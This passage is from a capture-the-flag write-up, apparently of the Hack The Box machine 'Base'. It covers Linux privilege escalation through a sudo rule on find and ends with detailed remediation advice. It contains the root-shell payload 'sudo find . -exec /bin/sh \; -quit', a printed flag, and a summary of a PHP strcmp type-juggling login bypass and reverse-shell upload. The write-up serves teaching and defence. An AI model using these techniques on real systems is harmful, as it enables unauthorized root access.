**Foothold complete.** The web-exposed PHP flaw got us `www-data`; plaintext config credentials plus password reuse got us a real user account.

---

## 5. Privilege Escalation (Root Access)

### 5.1 Systematic Enumeration

Work the classic checklist before reaching for automated scripts:

```bash
# 1. Sudo rights — the highest-value check on any box
sudo -l

# 2. SUID/SGID binaries
find / -perm -4000 -type f 2>/dev/null
find / -perm -2000 -type f 2>/dev/null

# 3. Scheduled jobs
cat /etc/crontab; ls -la /etc/cron*

# 4. Internal services / listening ports
ss -tlnp
# (or) netstat -tlnp

# 5. Writable files & dirs of interest
find / -writable -type d 2>/dev/null | grep -v proc

# 6. Kernel / OS
uname -a; cat /etc/os-release
```

### 5.2 The Vector: `sudo` on `/usr/bin/find`

`sudo -l` (supplying john's password at the prompt) reveals a catastrophically broad rule:

```text
User john may run the following commands on base:
    (root : root) /usr/bin/find
```

Reading the sudoers entry: user **john** may run **`/usr/bin/find`** as **user root, group root** — with **any arguments**, on **any host**.

`find` should never be in a sudoers file. It is a *program executor by design* — its `-exec`/`-execdir` predicates run arbitrary commands for every path they visit. Sudoing `find` therefore means *sudoing any command you embed in it*.

Cross-reference on [GTFOBins](https://gtfobins.github.io/gtfobins/find/) (`find` → Shell → Sudo section):


*GTFOBins entry for find — Sudo section with the shell payload*

### 5.3 Exploitation

From john's home directory:

```bash
sudo find . -exec /bin/sh \; -quit
```

**Payload breakdown:**

| Token | Meaning |
|---|---|
| `sudo` | Run as root, per the sudoers rule — password prompt accepts john's password. |
| `find .` | Search from the current directory; harmless on its own. |
| `-exec /bin/sh \;` | For each match, execute `/bin/sh` **in place of find's normal output**. Because sudo elevates `find` itself, every child process — including this shell — inherits **root**. `\;` terminates the `-exec` expression. |
| `-quit` | Stop after the first match, so exactly one root shell spawns and `find` exits cleanly (avoids spawning a shell per file). |


*sudo find -exec spawning a root shell and reading root.txt*

```text
# id
uid=0(root) gid=0(root) groups=0(root)
# cat /root/root.txt
51709519ea18ab37dd6fc58096bea949
```

**Root achieved.** `uid=0(root)` — the `#` prompt confirms the superuser shell.

> **Flag captured — `root.txt`:** `51709519ea18ab37dd6fc58096bea949`

> [!NOTE]
> The general lesson: **any** interpreter, editor, pager or archiver in sudoers is usually a root escape (`vim`, `less`, `awk`, `tar`, `python`, `cp`, ...). Before accepting a sudoers entry as "safe", check it against GTFOBins. Same applies to SUID bits on such binaries — the GTFOBins SUID section applies identically.

---

## 6. Remediation & Security Hardening

Map each fix to the exact weakness that made it exploitable:

### 6.1 Sensitive File Exposure (`login.php.swp`, directory listing)

- **Purge editor artifacts from deployments.** Add `.swp`, `.swo`, `*~`, `.bak`, `.old` to `.gitignore` and to the CI/CD "forbidden in webroot" scan. Configure vim to keep swap files outside served roots: `set directory^=$HOME/.vim/swap//` in `~/.vimrc`.
- **Disable directory listings** in Apache wherever an index file is expected:
  ```apache
  <Directory /var/www/html>
      Options -Indexes
  </Directory>
  ```
- **Deny-dotfile/artifact access** as defense in depth:
  ```apache
  <FilesMatch "\.(swp|swo|bak|old|save|ini|log)$">
      Require all denied
  </FilesMatch>
  ```

### 6.2 Authentication Bypass (PHP type juggling)

- **Never use `strcmp()` for secrets.** Store only salted **hashes** (`password_hash()` / Argon2id) and verify with `password_verify()` — which is constant-time and type-safe.
- If string comparison against a secret is truly required, use **`hash_equals()`** (timing-safe) and it naturally rejects non-string input.
- **Validate input types before use** — reject anything that is not a string:
  ```php
  if (!is_string($_POST['username']) || !is_string($_POST['password'])) {
      http_response_code(400);
      exit('Bad request');
  }
  ```
- **Compare strictly**: `=== 0` (or avoid sentinel-style comparisons entirely). On PHP 8 the array-to-`strcmp` trick fails loudly (TypeError), but explicit validation is the real fix — don't rely on runtime version luck.
- Fail closed with **generic error messages** (the identical "Wrong Username or Password" here was fine; distinct messages for wrong-user vs wrong-pass would enable enumeration).

### 6.3 Unrestricted File Upload → RCE

Layered controls, in order of importance:

1. **Never store user uploads inside the web root** (or at minimum, outside any PHP-enabled context). Serve them from a dedicated non-executable location.
2. **Disable script execution in upload locations:**
   ```apache
   <Directory /var/www/html/_uploaded>
       php_admin_flag engine off
       <FilesMatch "\.(php|phtml|php[0-9]|pht|phar)$">
           Require all denied
       </FilesMatch>
   </Directory>
   ```
3. **Whitelist extensions AND MIME types** server-side (`finfo_file()`), and enforce a size cap.
4. **Randomize filenames** on disk (UUID) and keep the original name only in a database column — kills direct-guessing and path-traversal-in-filename attacks.
5. Require **authentication and authorization** on the upload endpoint (this panel was "admin-only" protected *only* by the broken login).

### 6.4 Credential Storage & Reuse

- `config.php` held a **plaintext password** readable by the web-service account — a single LFI/source-disclosure bug away from leaking. Use environment variables or a secrets manager with read-scoped permissions; the app account should need no more.
- **Eliminate password reuse** across accounts/services: `thisisagoodpassword` unlocked both the web admin and john's SSH. Enforce unique credentials per principal; deploy MFA on SSH where feasible.
- The `admin` web account and the `john` OS account must not share secrets — a web compromise should never translate into a shell.

### 6.5 Dangerous `sudo` Rule

- **Remove `find` from sudoers entirely.** No interactive, `-exec`-capable, or interpreter-like binary (`find`, `vim`, `less`, `awk`, `tar`, `python`, `perl`, `cp`) should ever be granted blanket sudo.
- If a specific automated task genuinely needs elevated `find`, scope it to an exact, argument-locked invocation with a dedicated wrapper script (owned by root, non-writable), e.g. grant sudo on `/usr/local/sbin/cleanup-cachedir` — not on the binary itself.
- Audit with `sudo -l` per user and `visudo -c`; treat every grant as root-equivalent unless proven otherwise.

### 6.6 Defense-in-Depth

- Keep the stack patched (Ubuntu 18.04 / kernel 4.15 / OpenSSH 7.6p1 are all EOL or near-EOL); upgrade PHP ≥ 8 where the type-juggling class of bugs fails closed.
- Log and alert on: repeated 302s from login with anomalous bodies, uploads of executable extensions, and any `sudo` usage by service-ineligible users.

---

## 7. Lessons Learned (Attack Summary)

| # | Stage | Technique | Weakness |
|---|---|---|---|
| 1 | Recon | Nmap `-sVC -A -Pn` | — |
| 2 | Enum | `ffuf` + directory listing | Webroot exposes `login.php.swp` |
| 3 | Source review | `vim -r` swap recovery | Editor artifacts served raw |
| 4 | Auth bypass | `username[]=&password[]=` | `strcmp()` + `==` type juggling (PHP 7) |
| 5 | RCE | PHP reverse shell upload | No upload validation / no exec restriction |
| 6 | Pivoting | `ffuf` → `/_uploaded/`, config.php creds, SSH reuse | Plaintext secrets + password reuse |
| 7 | Privesc | `sudo find . -exec /bin/sh \; -quit` | Interpreter in sudoers |

---

| | |
|---|---|
| ← Previous | *Coming soon* |
| Back to index | [All write-ups](../../../README.md) · [HTB](../../README.md) · [HTB — Easy](../README.md) |
| Next → | [THM — Support](../../../THM/Medium/Support/README.md) |

---

**End of walkthrough.**
